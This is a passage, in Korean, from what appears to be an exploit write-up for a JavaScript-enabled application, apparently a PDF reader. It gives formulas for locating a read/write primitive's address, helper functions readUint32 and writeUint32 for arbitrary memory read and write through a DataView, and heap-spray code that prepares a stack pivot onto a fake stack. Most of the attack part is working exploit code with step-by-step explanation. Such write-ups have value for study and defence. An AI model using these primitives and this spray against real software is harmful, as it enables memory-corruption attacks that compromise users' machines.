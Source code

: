         5. R/W primitive의 VA를 계산
            - 이를 위해 아래의 값이 필요하다.
                1. d.에서 구한 offset
                    
                    `offset = chunk number * chunk size + 0x08 + 0x10 + 4 * m - 0x0c`
                    
                2. d.에서 구한 VA
                3. Pointer와 BitmapData 사이 크기 (: Pointer의 크기, 0x04 byte)
            - 위 값을 이용해 R/W primitive의 VA, startAddr은 다음과 같이 구할 수 있다.
                - `startAddr = rw.getUint32(0xffffffff+0x1-offset, true) + offset - 0x04` <br><br>
 
        6. R/W primtive의 VA로 모든 메모리 영역에 주소로 접근이 가능하다.
            
            ```js
            function readUint32(dataView, readAddr) {
              var offsetAddr = readAddr - StartAddr;
              if (offsetAddr < 0) {
                offsetAddr = offsetAddr + 0xFFFFFFFF + 1;
              }
              return dataView.getUint32(offsetAddr, true);
            }
            
            function writeUint32(dataView, writeAddr, value) {
              var offsetAddr = writeAddr - StartAddr;
              if (offsetAddr < 0) {
                offsetAddr = offsetAddr + 0xFFFFFFFF + 1
              }
              return dataView.setUint32(offsetAddr, value, true);
            }
            ```
            
            - 위 두 함수는 각각 임의의 VA(readAddr, writeAddr)가 가리키는 값을 제어하는 데 도움을 주는 Helper Function이다.
      
           ---
            
            **Helper Function의 동작 과정은 다음과 같다.**
            
            1. 특정 메모리의 VA를 전달 받으면 r/w primitive VA와의 offset을 계산한다.
            2. r/w primitive의 DataView object로 1.에서 구한 offset 위치의 값을 제어한다.
                
                > 이를 통해 특정 메모리의 VA를 이용해 메모리 값을 제어할 수 있다.
                

## 4. Preparing Stack Pivoting

```jsx
var heapSegmentSize = 0x10000;
heapSpray = new Array(0x8000);

for (var i = 0; i < 0x8000; i++) {
    heapSpray[i] = new ArrayBuffer(heapSegmentSize - 0x10 - 0x8);
}
```

- 임의의 주소로 esp를 옮겨 해당 영역을 프로그램에게 Fake Stack이라 속이는 Stack Pivoting을 수행한다.
  
- 옮겨진 esp가 있는 Fake Stack은 쓰기 권한이 존재해야 Stack이 자라며 쓰기 권한이 없어서 발생하는 에러를 막을 수 있다.<br>
  이를 위해 Heap을 충분히 많이 할당해 옮겨진 esp가 있는 Fake Stack에 높은 확률로 쓰기 및 읽기 권한이 있도록 한다.<br>
  
